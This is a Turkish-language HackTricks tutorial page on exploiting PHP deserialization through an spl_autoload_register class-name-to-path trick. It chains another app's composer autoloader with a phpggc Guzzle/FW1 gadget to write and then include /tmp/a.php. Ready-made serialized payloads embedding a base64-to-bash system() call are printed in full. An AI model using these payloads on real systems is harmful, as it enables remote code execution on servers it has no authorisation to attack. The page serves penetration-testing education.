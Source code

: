 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Öncelikle, [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) nedir kontrol etmelisiniz.

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

Bir **web uygulamasında PHP deserialization** bulduğumuz bir durumdayız ve **`phpggc`** içinde **gadget**'a karşı savunmasız bir kütüphane **yok**. Ancak, aynı konteynerde **savunmasız kütüphanelere sahip farklı bir composer web uygulaması** vardı. Bu nedenle, hedef **diğer web uygulamasının composer yükleyicisini yüklemek** ve bunu **deserialization'a karşı savunmasız web uygulamasından bir gadget ile o kütüphaneyi istismar etmek** için kullanmaktı.

Adımlar:

* Bir **deserialization** buldunuz ve mevcut uygulama kodunda **herhangi bir gadget** yok
* Aşağıdaki gibi bir **`spl_autoload_register`** fonksiyonunu kullanarak **herhangi bir yerel `.php` uzantılı dosyayı yükleyebilirsiniz**
* Bunun için, sınıf adının **`$name`** içinde olacağı bir deserialization kullanıyorsunuz. Serileştirilmiş bir nesnede sınıf adında **"/" veya "."** kullanamazsınız, ancak **kod** **alt çizgileri** ("\_") **eğik çizgilerle** ("/") **değiştiriyor**. Yani `tmp_passwd` gibi bir sınıf adı `/tmp/passwd.php`'ye dönüştürülecek ve kod bunu yüklemeye çalışacak.\
Bir **gadget örneği** şöyle olacaktır: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Eğer bir **dosya yükleme** alanınız varsa ve **`.php uzantılı`** bir dosya yükleyebiliyorsanız, bu işlevselliği **doğrudan kötüye kullanabilir** ve zaten RCE elde edebilirsiniz.
{% endhint %}

Benim durumumda, böyle bir şeyim yoktu, ama **aynı konteynerin** içinde **`phpggc` gadget'ına karşı savunmasız bir kütüphane** olan başka bir composer web sayfası vardı.

* Bu diğer kütüphaneyi yüklemek için, önce **o diğer web uygulamasının composer yükleyicisini** **yüklemeniz gerekiyor** (çünkü mevcut uygulamanın yükleyicisi diğerinin kütüphanelerine erişmeyecek). **Uygulamanın yolunu bilerek**, bunu çok kolay bir şekilde elde edebilirsiniz: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Benim durumumda, composer yükleyicisi `/www/frontend/vendor/autoload.php` içindeydi)
* Şimdi, **diğer uygulamanın composer yükleyicisini** **yükleyebilirsiniz**, bu yüzden kullanmak için **`phpgcc`** **payload'unu oluşturma zamanı**. Benim durumumda, **`Guzzle/FW1`** kullandım, bu da **dosya sisteminin içine herhangi bir dosya yazmamı** sağladı.
* NOT: **Oluşturulan gadget çalışmıyordu**, çalışması için **o payload'u** **`chain.php`** dosyasını phpggc'den **değiştirip** **tüm sınıf niteliklerini** **özelden genel** olarak ayarladım. Aksi takdirde, dizilimi çözülen dizeden sonra oluşturulan nesnelerin niteliklerinin hiçbir değeri yoktu.
* Artık **diğer uygulamanın composer yükleyicisini yükleme** yoluna sahibiz ve **çalışan bir phpggc payload'u** var, ama **gadget kullanıldığında yükleyicinin yüklenmesi için BUNU AYNI İSTEĞİN İÇİNDE yapmamız gerekiyor**. Bunun için, her iki nesne ile birlikte bir dizilmiş dizi gönderdim:
* **Önce yükleyicinin yüklendiğini ve sonra payload'unu görebilirsiniz**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Artık **bir dosya oluşturup yazabiliriz**, ancak kullanıcı **web sunucusundaki herhangi bir klasöre yazamaz**. Yani, yüklemede görebileceğiniz gibi, PHP **`system`** çağrısı ile bazı **base64**'ler **`/tmp/a.php`** içinde oluşturuluyor. Ardından, **oluşturulan `/tmp/a.php`** dosyasını yüklemek için diğer web uygulamasının composer yükleyicisini yüklemek üzere kullandığımız ilk tür yüklemeyi **yeniden kullanabiliriz**. Bunu deserialization gadget'ına ekleyin:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Yüklemenin Özeti**

* **Aynı konteynerdeki** farklı bir web uygulamasının composer autoload'unu yükle
* **Başka bir web uygulamasından** bir kütüphaneyi kötüye kullanmak için bir phpggc gadget'ı yükle (deserialization'a karşı savunmasız olan ilk web uygulamasında herhangi bir gadget yoktu)
* Gadget, **/tmp/a.php** dosyasında kötü niyetli komutlarla birlikte bir PHP yüklemesi olan bir dosya **oluşturacak** (web uygulaması kullanıcısı, herhangi bir web uygulamasının herhangi bir klasörüne yazamaz)
* Yüklememizin son kısmı, **oluşturulan php dosyasını yükleyecek** ve komutları çalıştıracak

Bu deserialization'ı **iki kez çağırmam gerekti**. Testlerimde, ilk seferde `/tmp/a.php` dosyası oluşturuldu ama yüklenmedi, ikinci seferde ise doğru bir şekilde yüklendi.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
